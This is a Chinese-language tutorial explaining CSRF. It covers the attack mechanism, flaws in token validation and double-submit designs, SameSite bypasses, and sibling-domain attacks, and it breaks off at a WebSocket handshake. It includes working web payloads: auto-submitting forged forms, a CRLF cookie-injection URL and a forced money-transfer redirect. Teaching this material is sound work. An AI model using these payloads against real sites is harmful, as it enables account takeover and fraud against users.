

# Cross-Site Request Forgery (CSRF)

> **参考：** [XSS](../Cross-site%20scripting%20(XSS)/) | [SameSite Cookie](../../../协议/HTTPandHTTPS.md) | [CORS](../../../协议/)

---

## 什么是 CSRF？

跨站请求伪造（Cross-Site Request Forgery，简称 CSRF）是一种 Web 安全漏洞，允许攻击者诱导用户执行其本不愿意执行的操作。它使攻击者能够部分绕过同源策略（Same Origin Policy），该策略旨在防止不同网站之间相互干扰。

Same Origin Policy：“源”由**协议（Protocol）**、**域名（Host）**和**端口（Port）**三部分组成。只有当这三者**完全一致**时，才叫同源。

---

## CSRF 攻击的影响

在成功的 CSRF 攻击中，攻击者使受害用户无意中执行了某个操作。例如：

- 更改账户的邮箱地址
- 修改密码
- 进行资金转账

根据操作的性质，攻击者可能获得对用户账户的完全控制。如果被攻陷的用户在应用程序中具有特权角色，攻击者可能能够完全控制应用程序的所有数据和功能。

---

## CSRF 的工作原理

### 核心原理：浏览器自动携带 Cookie

CSRF 的核心是利用了浏览器的"自动携带 Cookie"机制。攻击者盗用你的身份，以你的名义发送恶意请求。完整流程如下：

1. **登录信任站点**：你登录了银行网站 A，浏览器保存了登录凭证 Cookie
2. **访问恶意站点**：在未登出 A 的情况下，你访问了危险网站 B
3. **触发伪造请求**：网站 B 中隐藏了指向 A 的恶意请求，比如一段自动提交的表单代码
4. **浏览器自动执行**：浏览器发起跨域请求时，会自动带上 A 站的 Cookie
5. **攻击成功**：A 站收到请求，校验 Cookie 通过，误以为是你本人的操作，执行了转账

> **一句话总结：** CSRF 是"挟持用户在已登录的 Web 应用上执行非本意操作的攻击方法"——攻击者无法直接窃取你的 Cookie（同源策略保护了这一点），但可以利用浏览器"自动携带"的特性，让你在不知情的情况下替攻击者发出请求。

### 攻击成立的必要条件

要使 CSRF 攻击成为可能，必须同时满足三个关键条件：

| 条件 | 说明 |
|------|------|
| **一个相关的操作** | 应用程序中存在攻击者有理由诱导的操作。可能是特权操作（如修改其他用户的权限）或针对用户特定数据的操作（如修改用户自己的密码） |
| **基于 Cookie 的会话处理** | 执行操作涉及发出一个或多个 HTTP 请求，且应用程序仅依赖会话 Cookie 来识别发出请求的用户。没有其他机制来跟踪会话或验证用户请求 |
| **无可预测的请求参数** | 执行操作的请求不包含攻击者无法确定或猜测的参数值。例如，在诱导用户修改密码时，如果攻击者需要知道现有密码的值，则该功能不易受攻击 |

### 示例

假设一个应用程序允许用户更改其账户的邮箱地址。用户执行此操作时，发出如下 HTTP 请求：

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

这个请求满足 CSRF 所需的三个条件：

1. **相关操作**：更改用户邮箱地址的操作对攻击者有兴趣。通过此操作，攻击者通常可以触发密码重置并完全控制用户账户
2. **Cookie 会话处理**：应用程序使用会话 Cookie 来识别用户，没有其他令牌或机制来跟踪用户会话
3. **无不可预测参数**：攻击者可以轻松确定执行操作所需的请求参数值

### 攻击 HTML 构造

有了以上条件，攻击者可以构造包含以下 HTML 的网页：

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### 攻击流程

当受害用户访问攻击者的网页时，将发生以下过程：

1. 攻击者的页面触发对漏洞网站的 HTTP 请求
2. 如果用户已登录漏洞网站，浏览器会自动在请求中包含其会话 Cookie（假设未使用 SameSite Cookie）
3. 漏洞网站以正常方式处理请求，将其视为由受害用户发出，并更改其邮箱地址

**注意：** 虽然 CSRF 通常与基于 Cookie 的会话处理相关，但它也出现在应用程序自动向请求添加用户凭据的其他场景中，如 HTTP Basic 认证和基于证书的认证。

---

## 如何构造 CSRF 攻击

手动创建 CSRF 利用所需的 HTML 可能很繁琐，特别是在所需请求包含大量参数或存在其他特殊情况下。最简单的构造方法是使用 Burp Suite Professional 内置的 CSRF PoC 生成器：

1. 在 Burp Suite Professional 中选择要测试或利用的任意请求
2. 在右键菜单中选择 **Engagement tools / Generate CSRF PoC**
3. Burp Suite 将生成触发所选请求的 HTML（不含 Cookie，受害者的浏览器会自动添加）
4. 可以在 CSRF PoC 生成器中调整各种选项以微调攻击的各个方面
5. 将生成的 HTML 复制到网页中，在已登录漏洞网站的浏览器中查看，并测试请求是否成功发出且所需操作是否执行

---

## 如何交付 CSRF 利用

CSRF 攻击的交付机制与反射型 XSS 基本相同。通常，攻击者将恶意 HTML 放置在由其控制的网站上，然后诱导受害者访问该网站。这可以通过以下方式完成：

- 通过电子邮件或社交媒体消息向用户发送网站链接
- 如果攻击被放置在流行网站上（例如，在用户评论中），攻击者可能只需等待用户访问该网站

### 自包含的 GET 型 CSRF 攻击

一些简单的 CSRF 利用使用 GET 方法，可以通过一个在漏洞网站上的 URL 完全自包含。在这种情况下，攻击者可能不需要使用外部网站，可以直接向受害者提供漏洞域名上的恶意 URL。

如果更改邮箱地址的请求可以使用 GET 方法执行，则自包含攻击如下：

```html

```

---

## XSS 与 CSRF 的区别

### 核心差异

| 维度 | XSS (Cross-Site Scripting) | CSRF (Cross-Site Request Forgery) |
|------|---------------------------|----------------------------------|
| **定义** | 允许攻击者在受害用户浏览器中执行任意 JavaScript | 允许攻击者诱导受害用户执行其本不打算执行的操作 |
| **严重性** | 通常更严重 | 通常影响范围较小 |
| **作用范围** | 成功利用后可以诱导用户执行其能够执行的任何操作 | 通常仅适用于用户可以执行的**操作子集** |
| **数据流向** | "双向" —— 攻击者注入的脚本可以发出任意请求、读取响应并将数据外泄 | "单向" —— 攻击者可以诱导受害者发出 HTTP 请求，但**无法获取该请求的响应** |

### CSRF 令牌能否防止 XSS 攻击？

某些 XSS 攻击确实可以通过有效使用 CSRF 令牌来防止。

考虑一个简单的反射型 XSS 漏洞：

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
```

如果漏洞功能包含了 CSRF 令牌：

```
https://insecure-website.com/status?csrf-token=CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz&message=<script>/*+Bad+stuff+here...+*/</script>
```

假设服务器正确验证 CSRF 令牌并拒绝没有有效令牌的请求，那么令牌确实可以防止 XSS 漏洞的利用。关键点在于：反射型 XSS 涉及跨站请求，通过防止攻击者伪造跨站请求，应用程序防止了 XSS 漏洞的简单利用。

**重要注意事项：**

1. 如果站点上其他地方存在未被 CSRF 令牌保护的反射型 XSS 漏洞，该 XSS 仍可被正常利用
2. 如果站点上存在可利用的 XSS 漏洞，即使目标操作本身受 CSRF 令牌保护，漏洞也可以被用来让受害用户执行这些操作。攻击者的脚本可以请求相关页面获取有效 CSRF 令牌，然后使用该令牌执行受保护的操作
3. CSRF 令牌**不能防御存储型 XSS**。如果一个受 CSRF 令牌保护的页面同时也是存储型 XSS 的输出点，该 XSS 仍然可以正常利用

---

## CSRF 的常见防御措施

如今，成功发现和利用 CSRF 漏洞通常涉及绕过目标网站、受害者浏览器或两者部署的反 CSRF 措施。最常见的防御措施包括：

| 防御措施                | 说明                                                                            |
| ------------------- | ----------------------------------------------------------------------------- |
| **CSRF 令牌**         | 由服务器端应用程序生成并与客户端共享的唯一、保密且不可预测的值。执行敏感操作时，客户端必须在请求中包含正确的 CSRF 令牌                |
| **SameSite Cookie** | 浏览器安全机制，确定网站的 Cookie 何时包含在来自其他网站的请求中。Chrome 自 2021 年起默认强制执行 `Lax` SameSite 限制 |
| **Referer 头验证**     | 一些应用程序使用 HTTP Referer 头来防御 CSRF 攻击，通常通过验证请求是否来自应用程序自己的域名。通常不如 CSRF 令牌验证有效     |

---

## 绕过 CSRF 令牌验证

### 什么是 CSRF 令牌？

CSRF 令牌是由服务器端应用程序生成的唯一、保密且不可预测的值，并与客户端共享。当发出执行敏感操作的请求时，客户端必须包含正确的 CSRF 令牌，否则服务器将拒绝执行请求的操作。

常见的共享方式是将令牌作为 HTML 表单中的隐藏参数：

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

提交此表单将产生以下请求：

```
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

**注意：** CSRF 令牌不一定通过 POST 请求中的隐藏参数发送。一些应用程序将 CSRF 令牌放在 HTTP 头中。令牌的传输方式对整体机制的安全性有显著影响。

### CSRF 令牌验证的常见缺陷

#### 1. 令牌验证依赖请求方法

**缺陷：** 应用程序在使用 POST 方法时正确验证令牌，但在使用 GET 方法时跳过验证。

**绕过方式：** 切换到 GET 方法来绕过验证（使用burp 的change request method而非手动修改POST为GET）：

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

---

#### 2. 令牌验证依赖令牌是否存在

**缺陷：** 应用程序在令牌存在时正确验证，但如果令牌被省略则跳过验证。

**绕过方式：** 删除整个包含令牌的参数（不仅仅是其值）：

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

---

#### 3. CSRF 令牌未绑定到用户会话

**缺陷：** 应用程序不验证令牌是否属于当前发起请求的用户会话。相反，应用程序维护一个已颁发令牌的全局池，并接受池中的任何令牌。

**绕过方式：** 攻击者使用自己的账户登录应用程序，获取有效令牌，然后将该令牌提供给 CSRF 攻击中的受害用户。

---

#### 4. CSRF 令牌绑定到非会话 Cookie

**缺陷：** 应用程序将 CSRF 令牌绑定到一个独立的 Cookie（如 `csrfKey`），而非绑定到会话 Cookie（`session`）。验证逻辑是：从请求中取出 `csrfKey` Cookie 的值，根据这个值去查询"哪个令牌是有效的"，然后比对请求参数中的 `csrf` 是否匹配。

关键问题：**`csrfKey` 和 `session` 是两个独立的值，服务器没有检查它们是否属于同一个用户。**

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

这个请求中：
- `session` Cookie 标识"是谁在操作"——服务器用它来决定修改哪个用户的邮箱
- `csrfKey` Cookie 标识"令牌属于哪个 CSRF 会话"——服务器用它来查找期望的令牌值
- `csrf` 参数是实际的令牌值

服务器的验证逻辑伪代码：

```
csrfKey = request.cookies["csrfKey"]
expected_token = tokenStore[csrfKey]        // 根据 csrfKey 查令牌
if request.params["csrf"] != expected_token:
    reject()
// 通过验证，用 session Cookie 确定操作对象
user = sessionStore[request.cookies["session"]]
user.email = request.params["email"]
```

**问题在于：** `tokenStore` 是全局的，不区分用户。攻击者登录后，`tokenStore[攻击者的csrfKey] = 攻击者的令牌`。如果攻击者能把 `csrfKey=攻击者的csrfKey` 植入受害者浏览器，攻击者的令牌就能通过受害者的请求验证。

**为什么会出现这种设计？** 通常发生在两个框架未集成时：框架 A 负责会话管理（生成 `session` Cookie），框架 B 负责 CSRF 保护（生成 `csrfKey` Cookie 并维护令牌映射）。两者各自独立工作，没有人把"这个 csrfKey 属于哪个 session"这条关联建立起来。

---

**利用方式（三步走）：**

**第一步：** 攻击者登录自己的账户，获取：
- 自己的 session Cookie：`session=attacker-session-abc`
- 自己的 csrfKey Cookie：`csrfKey=attacker-csrfKey-xyz`
- 与 csrfKey 关联的有效令牌：`csrf=attacker-token-123`

此时服务器的 `tokenStore` 中记录：`"attacker-csrfKey-xyz" → "attacker-token-123"`

**第二步：** 想办法把 `csrfKey=attacker-csrfKey-xyz` 写入受害者的浏览器。

**第三步：** 诱导受害者访问攻击页面，攻击页面发出请求：

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim-session-789; csrfKey=attacker-csrfKey-xyz
                                  ^^^^^^^^^^^^^^^^^^^^^^^^ 攻击者的 csrfKey

csrf=attacker-token-123&email=attacker@evil.com
     ^^^^^^^^^^^^^^^^^ 攻击者的有效令牌
```

服务器验证过程：
1. 读取 `csrfKey=attacker-csrfKey-xyz`
2. 从 `tokenStore` 查到期望令牌是 `attacker-token-123`
3. 比对请求中的 `csrf=attacker-token-123` —— 匹配，通过
4. 读取 `session=victim-session-789`，用**受害者的身份**执行修改邮箱操作
5. 受害者的邮箱被改为 `attacker@evil.com`

攻击成功。服务器的验证只看"csrfKey 和 csrf 是否匹配"，不关心"这个 csrfKey 是不是这个 session 用户的"。

---

**关键问题：第二步怎么做？（Cookie 设置行为 / Cookie-setting gadget）**

要完成攻击，需要能在受害者浏览器中设置一个 Cookie。这通过"Cookie 设置行为"实现——任何能让你控制受害者浏览器中某个 Cookie 值的功能。以下是一些典型例子：

**例1：URL 参数直接写入 Cookie**

假设站点有一个"主题切换"功能：

```
https://vulnerable-website.com/theme?color=dark
```

服务器响应头中包含：

```
Set-Cookie: theme=dark; Domain=vulnerable-website.com; Path=/
```

参数值被原样写入 Cookie。但更危险的情况是，参数名也可控——比如：

```
https://vulnerable-website.com/set-preference?name=csrfKey&value=attacker-csrfKey-xyz
```

服务器无条件地将 `name=value` 写入 Cookie：

```
Set-Cookie: csrfKey=attacker-csrfKey-xyz; Domain=vulnerable-website.com; Path=/
```

那么攻击者只需让受害者访问这个 URL：

```html

```

受害者的浏览器就会种下攻击者的 `csrfKey`。

**例2：CRLF 注入（Header Injection）**

某些应用将用户输入反射到响应头中。如果输入过滤不严，攻击者可以注入换行符来插入任意 Cookie：

```
https://vulnerable-website.com/search?q=hello%0d%0aSet-Cookie:%20csrfKey=attacker-csrfKey-xyz
                                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                             换行注入，添加自定义响应头
```

响应变为：

```
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: search_term=hello
Set-Cookie: csrfKey=attacker-csrfKey-xyz   ← 攻击者注入的
```

**例3：同域名下的兄弟应用**

Cookie 设置行为不需要和 CSRF 漏洞在同一个应用中。只要域名相同，Cookie 就能被设置。

例如主站 `vulnerable-website.com` 有 CSRF 漏洞，但同域名下还有一个博客子站 `blog.vulnerable-website.com` 没有漏洞。如果博客子站有一个 Cookie 设置功能可以用来设置 `.vulnerable-website.com` 域的 Cookie，攻击者就能利用它来攻击主站。

---

**完整攻击示例：**

假设场景如下：

- `vulnerable-website.com` — 主应用，有 CSRF 漏洞（令牌绑定到 `csrfKey` Cookie）
- 主应用有一个"语言偏好"功能，URL 参数直接写入 Cookie

攻击者的攻击页面：

```html
<html>
<body>
    <!-- 第一步：在受害者浏览器中植入攻击者的 csrfKey -->
    <!-- 利用"语言偏好"功能，将 csrfKey Cookie 设置为攻击者的值 -->
    

    <!-- 第二步：发出 CSRF 攻击请求 -->
    <!-- 此时受害者浏览器中已有 csrfKey=attacker-csrfKey-xyz -->
    <form action="https://vulnerable-website.com/email/change" method="POST">
        <input type="hidden" name="email" value="attacker@evil.com">
        <input type="hidden" name="csrf" value="attacker-token-123">
    </form>
</body>
</html>
```

**注意：** `set-lang?lang=en` 看起来无害——它只是设置一个语言偏好 Cookie。但如果服务器对 Cookie 名称没有限制（比如使用类似的参数名设置逻辑），攻击者可以请求如下 URL：

```
https://vulnerable-website.com/set-lang?lang=en%0d%0aSet-Cookie:%20csrfKey=attacker-csrfKey-xyz
```

或者更直接地，如果功能接受任意 Cookie 名值对。这需要具体漏洞环境，但思路是一致的：找到一个能在受害者浏览器中设置特定 Cookie 值的方法。

**一句话总结：** 服务器的 CSRF 验证是 `csrfKey → csrf` 的映射验证，与 `session` 完全无关。攻击者只要能让受害者浏览器中的 `csrfKey` 指向自己已知令牌的那个值，就能用自己的令牌通过受害者请求的验证。

---

#### 5. CSRF 令牌在 Cookie 中简单重复（Double Submit）

**Double Submit 是什么？**

Double Submit（双重提交）是一种**无状态**的 CSRF 防御方案。服务器不在后端存储任何令牌记录，而是通过"比对"来验证：要求客户端在请求中两次提交同一个令牌值——一次放在 Cookie 中，一次放在请求参数（或自定义头）中。服务器仅检查这两个值是否相等。

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
                                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                    令牌出现在 Cookie 中

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
     同一个令牌出现在请求参数中
```

服务器的验证逻辑伪代码：

```
cookie_token = request.cookies["csrf"]
param_token  = request.params["csrf"]

if cookie_token == param_token:
    pass   // 验证通过
else:
    reject()
```

**为什么会出现这种设计？**

传统 CSRF 令牌方案需要在服务器端维护一个"令牌 → 用户"的映射表（存储在 session 或数据库中），这对某些架构来说有成本：

| 场景 | 传统方案的问题 | Double Submit 的优势 |
|------|--------------|---------------------|
| **无状态 REST API** | 没有服务端 session，令牌无处存储 | 不需要存储，比对即可 |
| **多服务器部署** | 令牌存储需要共享（数据库/Redis），增加复杂度 | 每个服务器独立验证，无需共享状态 |
| **单页应用（SPA）** | 表单由 JS 动态生成，服务端难以将令牌嵌入 HTML | SPA 读取 Cookie 中的令牌，写入请求参数即可 |

设计思路：浏览器受同源策略保护——攻击者**无法读取**其他域下的 Cookie。所以如果攻击者不知道 Cookie 中的令牌值，他就无法在请求参数中提供相同的值。两个值不匹配，请求被拒绝。看起来合理。

**但缺陷在哪里？**

同源策略阻止攻击者**读取** Cookie，但**不阻止攻击者写入** Cookie。如果攻击者能在受害者浏览器中设置 `csrf` Cookie 为自己的值，那么他就能在攻击请求中提供相同的值——两个值匹配，验证通过。

服务器只做了一件事：`cookie_token == param_token ?`。它不关心：
- 这个 Cookie 是谁设置的？（攻击者还是服务器）
- 这个令牌值是否由服务器生成？（攻击者可以自己编一个）
- 这个 Cookie 有没有 `Secure` 或 `HttpOnly` 标志？（通常没有，因为 JS 需要读取它来写入请求参数）

**利用流程（三步走）：**

**第一步：** 攻击者自创一个令牌。不需要登录，不需要账号，随便编一个即可。比如：`csrf=hacker-crafted-token-999`。如果服务器检查格式（如要求 32 位十六进制），就按格式编一个。

**第二步：** 找到 Cookie 设置行为，将 `csrf=hacker-crafted-token-999` 植入受害者浏览器。

**第三步：** 在 CSRF 攻击页面中，同时提供相同的令牌值：

```html
<html>
<body>
    <!-- 植入 Cookie：csrf=hacker-crafted-token-999 -->
    

    <!-- 发出攻击请求 -->
    <form action="https://vulnerable-website.com/email/change" method="POST">
        <input type="hidden" name="email" value="attacker@evil.com">
        <input type="hidden" name="csrf" value="hacker-crafted-token-999">
        <script>document.forms[0].submit();</script>
    </form>
</body>
</html>
```

受害者浏览器发出的请求：

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim-session-789; csrf=hacker-crafted-token-999
                                                ^^^^^^^^^^^^^^^^^^^^^^^^
                                                攻击者植入的 Cookie 值

csrf=hacker-crafted-token-999&email=attacker@evil.com
     ^^^^^^^^^^^^^^^^^^^^^^^^
     与 Cookie 中的值一致
```

服务器比对：Cookie 中的 `csrf` = `hacker-crafted-token-999`，参数中的 `csrf` = `hacker-crafted-token-999`。相等，放行。攻击成功。

**与"绑定到非会话 Cookie"的区别：**

| 维度 | 绑定到非会话 Cookie（第4节） | Double Submit（本节） |
|------|---------------------------|---------------------|
| **服务端存储** | 有全局 tokenStore，维护 csrfKey→token 映射 | 无任何存储，仅比对 |
| **是否需要攻击者账号** | 是。需要用自己账号获取合法令牌 | 否。自己编一个即可 |
| **Cookie 设置目标** | 植入攻击者的 `csrfKey` | 植入攻击者自创的 `csrf` |
| **攻击难度** | 中等 | 更低 |
| **根本缺陷** | csrfKey 与 session 无绑定关系 | 服务器不区分"自己设置的 Cookie"和"攻击者设置的 Cookie" |

**关键洞察：** Double Submit 的安全性建立在"攻击者不知道 Cookie 中的令牌值"这一假设上。但一旦攻击者能**写入** Cookie，他就能"知道"——因为值是他自己选的。服务器信任 Cookie 中的值，而这个值来自不可信的客户端——这是问题的根源。

**关于 Cookie 设置行为：** 与第4节相同——任何能写入 Cookie 的功能都可被利用。详见上一节的例1~例3。

---

### CSRF 令牌绕过方法对比总结

| 绕过方法 | 核心缺陷 | 攻击条件 | 难度 |
|----------|----------|----------|------|
| 切换请求方法 | POST 验证，GET 不验证 | 目标端点接受 GET 请求 | 低 |
| 删除令牌参数 | 令牌存在时验证，缺失时跳过 | 无 | 低 |
| 令牌池共享 | 不验证令牌与会话的绑定关系 | 攻击者有自己的账户 | 中 |
| 绑定到非会话 Cookie | CSRF 令牌绑定到独立 Cookie | 存在 Cookie 设置功能（同域亦可） | 中 |
| Double Submit | 无服务器端令牌记录 | 存在 Cookie 设置功能 | 中 |

---

## 绕过 SameSite Cookie 限制

SameSite 是一种浏览器安全机制，用于确定网站的 Cookie 何时包含在来自其他网站的请求中。SameSite Cookie 限制为各种跨站攻击（包括 CSRF、跨站泄露和某些 CORS 利用）提供了部分保护。

自 2021 年起，如果发 Cookie 的网站未明确设置自己的限制级别，Chrome 默认应用 `Lax` SameSite 限制。这是提议的标准，预计其他主流浏览器将来也会采用此行为。

CORS：（跨源资源共享，Cross-Origin Resource Sharing）是一个**由浏览器执行的安全机制**，它允许服务器告诉浏览器：“我同意来自某个外部源的网页，访问我的资源。”它本质上是**对浏览器同源策略的有控制放宽**。

### 核心概念：Site vs Origin

在 SameSite Cookie 限制的语境中，**site（站点）** 定义为顶级域名（TLD，如 `.com` 或 `.net`）加上域名的**一个额外级别**，通常称为 TLD+1。

在判断请求是否为同站（same-site）时，URL 的 scheme（协议）也会被考虑。这意味着从 `http://app.example.com` 到 `https://app.example.com` 的链接会被大多数浏览器视为跨站（cross-site）。

| 请求来源 | 请求目标 | 同站？ | 同源？ |
|----------|----------|--------|--------|
| `https://example.com` | `https://example.com` | 是 | 是 |
| `https://app.example.com` | `https://intranet.example.com` | **是** | 否（域名不匹配） |
| `https://example.com` | `https://example.com:8080` | **是** | 否（端口不匹配） |
| `https://example.com` | `https://example.co.uk` | 否（eTLD 不匹配） | 否（域名不匹配） |
| `https://example.com` | `http://example.com` | 否（scheme 不匹配） | 否（scheme 不匹配） |

**关键区别：** 跨源请求仍然可能是同站的，但反过来不行。这意味着任何允许任意 JavaScript 执行的漏洞都可以被滥用来绕过同一站点上其他域名的基于 site 的防御。

### SameSite 限制级别

所有主流浏览器目前支持以下 SameSite 限制级别：

| 级别 | 行为 | 适用场景 |
|------|------|----------|
| **Strict** | 浏览器不在**任何**跨站请求中发送 Cookie | 敏感操作（如修改数据、访问需要认证的页面）。最安全但可能影响用户体验 |
| **Lax** | 浏览器仅在满足以下**两个条件**的跨站请求中发送 Cookie：1) 使用 GET 方法；2) 请求由用户的顶级导航（如点击链接）触发。Cookie 不在跨站 POST 请求或后台请求（脚本、iframe、图片引用）中发送 | Chrome 的默认行为。在安全性和用户体验之间取得平衡 |
| **None** | 完全禁用 SameSite 限制。浏览器在所有请求中发送此 Cookie，包括由无关第三方网站触发的请求。**必须同时设置 `Secure` 属性**（仅通过 HTTPS 发送），否则浏览器拒绝设置该 Cookie | 需要在第三方上下文中使用的 Cookie（如追踪 Cookie） |

**设置方式：**

```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure
```

---

### 绕过 SameSite Lax 限制：使用 GET 请求

服务器并不总是严格要求特定端点接收 GET 还是 POST 请求。如果会话 Cookie 使用 Lax 限制并允许 GET 方法，则可以通过诱导受害浏览器发起 GET 请求来执行 CSRF 攻击。

**最简单的攻击方式：**

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

**方法覆盖绕过：** 即使普通的 GET 请求不被允许，一些框架提供了覆盖请求行中指定方法的方式。例如，Symfony 支持表单中的 `_method` 参数：

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
    <input type="hidden" name="_method" value="POST">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

其他框架也支持各种类似参数。

---

### 绕过 SameSite Strict 限制：使用站内 Gadget

如果 Cookie 设置了 `SameSite=Strict`，浏览器不会在任何跨站请求中包含它。可以利用站内小工具（gadget）发起同站内的二次请求来绕过此限制。

**客户端重定向（Client-side Redirect）：**

一种可能的 gadget 是客户端重定向，它使用攻击者可控制的输入（如 URL 参数）动态构造重定向目标。从浏览器角度看，这些客户端重定向被视为普通的独立请求——是同站请求，因此会包含站点的所有 Cookie，无论设置了何种限制。

如果攻击者可以操纵此 gadget 来发起恶意的二次请求，就能完全绕过 SameSite Cookie 限制。

**注意：** 等效攻击在服务端重定向中不可行。浏览器会识别出该重定向请求最初来自跨站请求，因此仍会应用适当的 Cookie 限制。

---

### 绕过 SameSite 限制：利用有漏洞的兄弟域名

请求即使跨源（cross-origin），仍然可以是同站（same-site）的。SameSite Cookie 的限制粒度是"site"，不是"origin"。这意味着同一 site 下的所有子域名共享 Cookie 发送权限——Cookie 会在 `app.example.com` 和 `blog.example.com` 之间互相携带。

回顾此前的基础概念：

| 请求来源 | 请求目标 | 同站？ | 同源？ |
|----------|----------|--------|--------|
| `https://app.example.com` | `https://intranet.example.com` | **是**（同一 site） | 否（域名不同，origin 不同） |

这个事实的后果是：**如果一个兄弟域名存在任意漏洞（XSS、Cookie 注入等），它就可能被用来攻击同 site 下的所有其他应用。** SameSite Cookie 防御在这种场景下完全失效。

---

#### 攻击场景一：利用兄弟域名的 XSS 发起 CSRF

假设组织拥有以下域名：

- `app.example.com` —— 核心业务应用，所有敏感操作受 SameSite Strict Cookie 保护
- `blog.example.com` —— 公司博客，存在一个反射型 XSS 漏洞

由于 `blog.example.com` 和 `app.example.com` 同属 `example.com` site：
- 从 `blog.example.com` 向 `app.example.com` 发起的请求会携带所有 SameSite Cookie
- 浏览器的 SameSite 机制认为这是"同站"请求，不做限制

攻击链：

1. 攻击者构造一个指向 `blog.example.com` 的链接，在 URL 参数中注入 XSS payload
2. payload 中的 JavaScript 向 `app.example.com` 发起 CSRF 请求（修改邮箱、转账等）
3. 浏览器判定请求是同站的，携带受害者在 `app.example.com` 上的会话 Cookie
4. `app.example.com` 收到请求，Cookie 有效，执行操作

与直接从外部站点发起 CSRF 的关键区别：

| 攻击来源 | SameSite 行为 | 攻击结果 |
|---------|-------------|---------|
| 外部站点（`attacker.com`） | 浏览器阻止发送 Cookie（Strict/Lax） | 失败 |
| 兄弟域名（`blog.example.com`） | 浏览器发送 Cookie（同站） | 成功 |

这解释了为什么"站点"而非"源"的安全边界存在风险——一个子域沦陷，整个 site 的 SameSite 保护就失效了。

---

#### 攻击场景二：跨站 WebSocket 劫持（CSWSH）

如果目标站点支持 WebSocket，同一 site 内的兄弟域名漏洞还可以被用来实施跨站 WebSocket 劫持（Cross-Site WebSocket Hijacking，CSWSH）。这是对 WebSocket 握手的 CSRF 攻击，但后果远比普通 CSRF 严重。

**WebSocket 基础回顾：**

WebSocket 是一种全双工通信协议，允许浏览器和服务器之间建立持久连接，双向发送数据。它通常用于实时功能：聊天、通知推送、协作编辑、交易行情等。

一个典型的 WebSocket 连接建立过程（握手）：

```
GET /chat HTTP/1.1
Host: example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://example.com
Cookie: session=abc123def456
```

服务器响应：

```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
